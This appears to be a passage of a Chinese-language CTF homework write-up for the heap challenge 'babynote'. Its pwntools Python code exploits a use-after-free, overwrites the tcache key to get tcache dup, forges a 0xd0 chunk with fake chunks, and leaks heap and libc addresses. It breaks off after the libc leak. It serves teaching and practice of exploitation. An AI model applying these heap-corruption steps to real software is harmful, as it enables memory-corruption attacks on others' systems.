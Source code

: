 # HW0B
## babynote 👶
此題 chunk 的使用次數限制在 10 次，並且在 `Delete Note` 有 UAF 可以利用。

關於 chunk array 以 `ptr[i]` 稱之，以及 chunk 的 idx 以 `chunk idx` 表示

首先 create 一個 `0x18` chunk `chunk 0`，delete 掉 `ptr[0]`，再 create 第二個 chunk，會拿到第一次 delete 掉的 `chunk 0`，再利用 UAF，delete 掉 `[ptr0]`，這樣就能讓 `ptr[1]` 指向一個已經被 delete 的 chunk，並且可以對他改值

而之後再利用 overwrite tcache key，讓同一個 chunk 可以被 delete 多次，達成 tcache dup 的攻擊，此時也能用 `show()` 來 leak heap address 了
```python
for _ in range(2):
    add(0x18, 'QQ')
    delete(0)
for _ in range(3):
    edit(1, p64(0)*2) # edit key
    delete(0) # protect tcache count becomes 0

show(1)
heap = u64(r.recv(6) + b'\x00\x00') & 0xfffffffff000
log.info(f"heap: {hex(heap)}") # get tcache fd ptr
```

我們可以用此種方式達到**用兩個 chunks 即可填滿 tcache**，而要 leak libc 的方式只有丟到 `unsorted bin`，所以要想辦法構造出 small bin size 的 chunk

這邊選的 size 為 `0xd0`，所以利用一開始的 tcache dup，蓋掉現有 chunks 的 size，再利用一開始手法，就能填滿 tcache，leak libc。

這邊必須注意的是，`free()` 與 `malloc` unsorted bin chunk 時，會檢查 next_size 或是 next_chunk inuse，所以也需要其他的 fake chunks 來繞過這些檢查。這邊原本 0x100 的空間，拆成 `0xd0` + `0x20`*2
```python
add(0x78, 'QQ') # ptr[2] (chunk 1)
add(0x78, b'\x00'*0x48 + p64(0x21) + b'\x00'*0x18 + p64(0x21)) # ptr[3] (chunk 2)
delete(2)
add(0x78, 'QQ') # ptr[4] (point to chunk 1)
#### use tcache dup to overwrite
add(0x18, p64(heap + 0x2b0)) # ptr[5] (get chunk 0, set fd ptr to chunk 1)
add(0x18, 'QQ') # ptr[6]
add(0x18, p64(0) + p64(0xd1)) # ptr[7] (overwrite size 0x80 -> 0xd0 (small bin size))
```
到了這邊，利用 tcache dup 蓋掉 `chunk size` 成 0xd0，因此其中兩個 ptr 是指向了 `0xd0` size 的 chunk (`chunk 1`)
<br>

而這邊要利用 UAF 填滿 tcache 以及放進 unsorted bin，再利用 `show()` 把 libc leak 出來
```python
# ptr[2] and ptr[4] point to chunk 1
for _ in range(7): # full 0xd0 tcache
    delete(2)
    edit(4, 'D'*0x10) # edit key => double free

delete(2) # put into unsorted bin
show(4)
```
